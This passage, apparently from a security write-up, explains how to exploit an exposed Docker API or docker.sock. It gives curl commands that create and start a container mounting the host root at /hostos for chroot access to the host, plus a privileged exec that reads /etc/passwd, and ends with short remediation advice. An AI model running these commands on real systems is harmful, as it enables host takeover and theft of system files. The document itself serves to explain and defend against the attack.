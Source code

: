 **2) Create the container with the mounted volume** 

```
curl -i -s -k  -X 'POST' \
-H 'Content-Type: application/json' \
--data-binary '{"Hostname": "","Domainname": "","User": "","AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Tty": true,"OpenStdin": true,"StdinOnce": true,"Entrypoint": "/bin/bash","Image": "ubuntu","Volumes": {"/hostos/": {}},"HostConfig": {"Binds": ["/:/hostos"]}}' \
http://<docker_host>:PORT/containers/create
```

**3) Start the container** 

```
curl -i -s -k  -X 'POST' \
-H 'Content-Type: application/json' \
http://<docker_host>:PORT/containers/<container_ID>/start
```

From here, use the code execution vulnerability discussed above to run commands against the new container. Don't forget to add `chroot /hostos` if you want to run the command against the Host OS.
 
# How do I fix this?

 1. Avoid making docker.sock available remotely or at the container level at all costs (If possible).
    
 2. Follow [this](https://docs.docker.com/engine/security/https/) if you absolutely need to make the socket file remotely available

 3. Set up proper security groups and firewall rules to block access from IPs that do not need access.

# Appendix
## Local Commands
Here is a list of curl commands to run if the API is not available remotely but is available locally.
### 1) List all containers

```
sudo curl -i -s --unix-socket /var/run/docker.sock -X GET \
http://localhost/containers/json
```

### 2) Create an exec

```
sudo curl -i -s --unix-socket /var/run/docker.sock -X POST \
-H "Content-Type: application/json" \
--data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' \
http://localhost/containers/<container_id>/exec
```
